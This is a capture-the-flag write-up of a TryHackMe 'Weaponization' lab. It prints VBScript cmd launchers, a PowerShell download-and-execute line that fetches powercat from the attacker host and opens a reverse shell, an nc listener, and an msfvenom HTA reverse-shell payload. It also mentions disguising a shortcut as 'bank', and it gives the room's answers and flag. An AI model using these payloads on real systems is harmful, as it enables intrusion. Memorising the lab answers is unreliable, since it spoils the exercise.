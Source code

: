 ```yaml
---
title: Weaponization   
author: CYB3RM3
name: CYB3RM3 | Weaponization  
date: 2021-12-26 21:50:07 +0100
categories: [TryHackMe, Red Teaming]
tags: [Red Team, Weaponization]
---
```


Understand and explore common red teaming weaponization techniques. You will learn to build custom payloads using common methods seen in the industry to get initial access.

THM Room [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)


## TASK 1 : Introduction
### Let's deploy the target machine in the next task, and we'll get started with the Windows Script Host technique in the subsequent task ! 
No Answer

## TASK 2 : Deploy the Windows Machine 
### Deploy the attached Windows machine and connect to it via the RDP client. Once this is done, move to the next task. 
No Answer

## TASK 3 : Windows Scripting Host - WSH
### Try to replace the calc.exe binary to execute cmd.exe within the Windows machine. 
I tried two codes. Payloads.vbs to launch cmd.exe as user, payloads2.vbs for cmd administrator :

payloads.vbs
```console
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
{: .nolineno }

payloads2.vbs

```console
Set oShell = CreateObject("Shell.Application")
oShell.ShellExecute "cmd.exe", , , "runas", 1
```
{: .nolineno }

No Answer
## TASK 4 : An HTML Application - HTA 
### Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task. 
Practiced and test different payload such as msfvenom command line directly or metasploit module. Get back multiple shell and offuscate link in shortcut on user's desktop and rename like "bank".

![Practice](/images/thm/weaponization/weaponization_1.png)
_Practice_

No Answer

## TASK 5 : Visual Basic for Application - VBA 
### Now replicate and apply what we discussed to get a reverse shell!

![HTA](/images/thm/weaponization/weaponization_2.png)
_HTA_

No Answer

## TASK 6 : PowerShell - PSH  
### Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

First, on attack machine :

```console
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 6666
```
{: .nolineno }

Then in another tab of terminal :

```console
nc -lnvp 1337
```
{: .nolineno }

On victim machine in cmd :

```console
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.188.37:6666/powercat.ps1');powercat -c 10.10.188.37 -p 1337 -e cmd"
```
{: .nolineno }

You'll now have a shell on your attack machine's listener !

![PSH](/images/thm/weaponization/weaponization_3.png)
_PSH_

No Answer

## TASK 7 : Command And Control - (C2 Or C&C) 
### Read the above. 
No Answer

## TASK 8 : Delivery Techniques
### Which method is used to distribute payloads to a victim at social events?
Answer : Web Delivery

## TASK 9 : Practice Arena 
###  What is the flag? 
Execute hta exploit for example :

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.188.37 LPORT=9933 -f hta-psh -o thm.hta
```
{: .nolineno }

Visiting url : http://10.10.188.37:666/thm.hta give us a reverse shell.

```console
type /Users/thm/Desktop/flag.txt
```
{: .nolineno }

Answer : THM{b4dbc2f16afdfe9579030a929b799719}